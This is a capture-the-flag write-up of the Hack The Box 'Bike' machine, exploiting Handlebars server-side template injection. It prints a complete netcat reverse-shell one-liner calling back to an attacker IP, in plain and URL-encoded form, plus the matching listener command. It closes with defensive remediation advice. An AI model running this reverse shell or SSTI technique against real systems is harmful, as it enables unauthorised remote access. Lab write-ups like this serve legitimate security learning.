





# CTF Write-up — bike from hackthebox.com

> **Summary:** Exploited a Handlebars server-side template injection (SSTI) using `process.mainModule.require` to spawn a reverse shell, escalate to root, and capture the flag.  
> **Difficulty:** Very Easy  
> **HTB:** https://app.hackthebox.com/starting-point
>


---

## Table of contents
1. [Reconnaissance](#reconnaissance)
2. [Resource development](#resource-development)
3. [Initial access](#initial-access)
4. [Privilege escalation](#privilege-escalation)
5. [Findings & recommendations](#findings--recommendations)

---

## 1. Reconnaissance

### Port scan
- Performed an `nmap` scan and enumerated open services. See `evidences/nmap.txt`.  
```bash
nmap -sV -sS 10.129.84.44 -oN nmap.txt
```
- Results (high-level):
  - `80/tcp` — HTTP (tcpwrapped)
  - `22/tcp` — SSH

### Template testing & fingerprinting
- Performed simple template tests (e.g. `{{7*7}}`) and observed rendered output.  
- Determined template engine: **Handlebars**: 

---

## 2. Resource development

### References and initial exploit idea
- Referenced [HackTricks — SSTI / Handlebars](https://book.hacktricks.wiki/en/pentesting-web/ssti-server-side-template-injection/index.html#handlebars) for RCE idea.

### Payload engineering
- Initial payload from HackTricks failed because `require` was not available in the expected scope:  
- Adjusted approach to use `process.mainModule.require`: 

### Reverse shell
- we get from [reverse shell generator](https://www.revshells.com/) the reverse shell code to inject as payload:
``` bash
# regular version
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.25 9000 >/tmp/f
# url encode version (the one that will be used)
rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20-i%202%3E%261%7Cnc%2010.10.14.25%209000%20%3E%2Ftmp%2Ff
```

### Listener
- Started a netcat listener to receive the reverse shell:
```bash
nc -lvnp 9000
```

---

## 3. Initial access
- Delivered the payload via Burp Suite and obtained iteractive shell as root:   
- Retrieved flag:  


---

## 4. Privilege escalation
> *Section intentionally left concise — see `Findings & recommendations` for mitigation and next steps.*

---

## 5. Findings & recommendations
- not necessary in this case, since we accessed directly as `root`.

### Key findings
|  # | Category                                      | Description                                                                                                                                                                    | Impact                                                                                                           |
| -: | --------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ | ---------------------------------------------------------------------------------------------------------------- |
|  1 | **Template Injection (SSTI)**                 | The web application accepted and rendered user-supplied Handlebars templates, allowing server-side template injection (SSTI).                                                  | **High**        |
|  2 | **Remote Code Execution via Template Engine** | The application environment and templating flow permitted crafted templates to execute arbitrary code or access privileged contexts, resulting in remote code execution (RCE). | **Critical** |


### Immediate remediation (high-level)
1. **Sanitize/validate** all user-controllable template inputs; avoid directly rendering user-supplied strings as templates.  
2. **Use a safe templating mode** or a sandboxed rendering environment when possible.  
3. **Harden Node.js process permissions** and follow principle of least privilege for app user accounts.  
4. **Update dependencies** and apply platform security best-practices (CSP, input validation, dependency scanning).  
5. **Audit logs** to detect exploitation attempts, and rotate secrets/keys if there was suspected exposure.
